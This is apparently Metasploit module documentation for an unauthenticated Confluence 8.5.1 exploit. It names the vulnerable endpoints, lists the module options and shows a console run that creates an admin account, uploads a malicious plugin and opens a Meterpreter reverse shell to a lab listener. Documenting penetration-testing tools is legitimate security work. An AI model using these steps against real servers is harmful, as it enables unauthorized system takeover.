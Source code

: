 ## Vulnerable Application

This Improper Authorization vulnerability allows an unauthenticated attacker to reset Confluence and create a
Confluence instance administrator account. Using this account, an attacker can then perform all
administrative actions that are available to Confluence instance administrator. This module uses the
administrator account to install a malicious .jsp servlet plugin which the user can trigger to gain code
execution on the target in the context of the of the user running the confluence server.

### Setup
Download and install a [vulnerable version of Atlassian Confluence](https://www.atlassian.com/software/confluence/download.).
By default the server will listen for HTTP connections on port 8090. This exploit module was tested against Confluence
8.5.1 running on Windows Server 2022.

After running the installer the setup wizard will ask for a trial license. An Atlassian account is free and required
to obtain the trial licence. A database and a will also be required to run Confluence. Download and install
[PostgreSQL](https://www.enterprisedb.com/downloads/postgres-postgresql-downloads). The setup Wizard will ask for DB
credentials, the default PostgreSQL database can be used.

## Verification Steps

1. Start msfconsole
1. Do: `use atlassian_confluence_unauth_backup`
1. Set the `RHOST`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the Confluence application.

## Options

### CONFLUENCE_TARGET_ENDPOINT

This is the endpoint used to trigger the vulnerability, and must be reachable by an un authenticated HTTP(S) POST
request. The three vulnerable endpoints outlined by Atlassian in the advisory for this vulnerability are as follows:
 - /json/setup-restore.action
 - /json/setup-restore-local.action
 - /json/setup-restore-progress.action'

### CONFLUENCE_PLUGIN_TIMEOUT

The exploit will install a malicious plugin into the Confluence server. Plugin installation is performed asynchronously
and we must poll the server to find out when installation has completed. This option governs the maximum amount
of time to wait for installation to complete. The timeout value is in seconds and by default this option is set to `30`.

## Scenarios
### Windows Server 2022 running Atlassian Confluence 8.5.1
```
msf6 exploit(multi/http/atlassian_confluence_unauth_backup) > set rhost 172.16.199.134
rhost => 172.16.199.134
msf6 exploit(multi/http/atlassian_confluence_unauth_backup) > set verbose true
verbose => true
msf6 exploit(multi/http/atlassian_confluence_unauth_backup) > options

Module options (exploit/multi/http/atlassian_confluence_unauth_backup):

   Name                        Current Setting             Required  Description
   ----                        ---------------             --------  -----------
   CONFLUENCE_PLUGIN_TIMEOUT   30                          yes       The timeout (in seconds) to wait when installing a plugin
   CONFLUENCE_TARGET_ENDPOINT  /json/setup-restore.action  yes       The endpoint used to trigger the vulnerability. (Accepted: /json/setup-restore.action, /json/setup-restore-local.action, /json/setup-restore-progress.action)
   NEW_PASSWORD                LELTtnOG                    yes       Password to be used when creating a new user with admin privileges
   NEW_USERNAME                candace.leffler             yes       Username to be used when creating a new user with admin privileges
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      172.16.199.134              yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                       8090                        yes       The target port (TCP)
   SSL                         false                       no        Negotiate SSL/TLS for outgoing connections
   VHOST                                                   no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/atlassian_confluence_unauth_backup) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Exploitable version of Confluence: 8.5.1
[*] Setting credentials: candace.leffler:LELTtnOG
[+] Exploit Success! Login Using 'candace.leffler :: LELTtnOG'
[*] Generating payload plugin
[*] Uploading payload plugin
[*] Triggering payload plugin
[*] Deleting plugin...
[*] Sending stage (57692 bytes) to 172.16.199.134
[*] Meterpreter session 6 opened (172.16.199.1:4444 -> 172.16.199.134:50095) at 2023-12-11 18:52:33 -0500

meterpreter > getuid
Server username: WIN-2EEL7BRDUD8$
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows Server 2022 10.0 (amd64)
Architecture    : x64
System Language : en_US
Meterpreter     : java/windows
meterpreter >
```

